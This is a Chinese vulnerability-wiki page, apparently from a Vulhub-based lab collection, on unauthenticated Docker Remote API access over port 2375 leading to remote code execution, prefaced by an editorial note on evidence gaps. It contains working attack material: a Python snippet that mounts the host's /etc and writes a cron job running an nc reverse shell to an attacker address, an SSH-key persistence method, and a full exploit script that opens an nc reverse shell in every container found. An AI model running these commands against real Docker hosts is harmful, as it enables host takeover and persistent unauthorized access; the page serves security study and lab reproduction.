

# Docker daemon api 未授权访问漏洞 RCE

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：API无认证可达，宿主挂载与root权限视daemon模式；容器内nc和外连另需存在
- 证据范围：正文称Swarm自动开放2375过度泛化，代码注释反而正确注明是显式启用功能；脚本在既有容器执行不等于宿主逃逸

### 本次正文校订

- 按实际内容修正 6 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- if r.json 检查方法对象而非JSON成功结果，没有响应错误处理
- attach不能连接已停止容器，应说明先start
- root SSH登录还需sshd/PermitRootLogin等条件
- cron不能后续追加的断言无依据，需解释实际格式/换行问题
- 本地ssh-keygen示例没有完成远端写入链

### 操作风险与资料使用

- 含计划任务、启动项或 SSH 授权文件写入：会改变后续执行或登录行为。测试前备份原文件，结束后恢复原内容、权限与属主，不覆盖生产文件。
- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Docker 是一个开源的应用容器引擎，让开发者可以打包应用及依赖包到一个轻量级、可移植的容器中，然后发布到 Linux 机器上，也可以实现虚拟化。Docker swarm 是 Docker 的集群管理工具，提供了标准的 Docker API。

在使用 Docker swarm 的时候，管理的 Docker节点上会开放一个 TCP 端口 2375，绑定在 0.0.0.0 上，直接 HTTP 访问会返回 “404 Not Found”。可以通过该 API 执行 Docker 命令，例如创建/删除 container、拉取 image、执行反弹 shell。

参考链接：

- [http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8](http://www.loner.fm/drops/#!/drops/1203.新姿势之Docker Remote API未授权访问漏洞分析和利用)

## 环境搭建

Vulhub编译及启动漏洞环境：

```shell
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

### 查看容器

```
http://your-ip:2375/containers/json
```

### 执行命令

列出所有镜像：

```shell
docker -H tcp://your-ip:2375 images
```

列出所有容器：

```shell
docker -H tcp://your-ip:2375 ps -a
```

启动一个已经停止的容器：

```shell
docker -H tcp://your-ip:2375 start <container ID>
```

连接一个已经停止的容器：

```shell
docker -H tcp://your-ip:2375 attach <container ID>
```

### 获取权限

#### 写入 ssh 公钥

启动一个容器，挂载宿主机的 `/root` 目录，之后将攻击者的 ssh 公钥 `~/.ssh/id_rsa.pub` 的内容写到入宿主机的 `/root/.ssh/authorized_keys` 文件中，之后就可以用 root 账户直接登录了。

本地获取 ssh 公钥：

```
ssh-keygen -t rsa
```

#### 反弹 shell

随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。可以将命令写入crontab配置文件，进行反弹shell。

```python
import docker

client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

监听2333端口，接收反弹shell。

此处的反弹shell需要和/etc/crontabs/root文件同时写入，不能后续追加。




## 漏洞EXP

```python
from __future__ import print_function
import requests
import logging
import json
import urllib.parse

# NOTE
# Enable Remote API with the following command
# /usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
# This is an intended feature, remember to filter the port 2375..

name          = "docker"
description   = "Docker RCE via Open Docker API on port 2375"
author        = "Swissky"

# Step 1 - Extract id and name from each container
ip   = "127.0.0.1"
port = "2375"
data = "containers/json"
url  = "http://{}:{}/{}".format(ip, port, data)
r = requests.get(url)

if r.json:
    for container in r.json():
        container_id   = container['Id']
        container_name = container['Names'][0].replace('/','')
        print((container_id, container_name))

        # Step 2 - Prepare command
        cmd = '["nc", "192.168.1.2", "4242", "-e", "/bin/sh"]'
        data = "containers/{}/exec".format(container_name)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":'+cmd+' }'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))


        # Step 3 - Execute command
        id_cmd = r.json()['Id']
        data = "exec/{}/start".format(id_cmd)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "Detach":false,"Tty":false}'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))
        print(r)
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
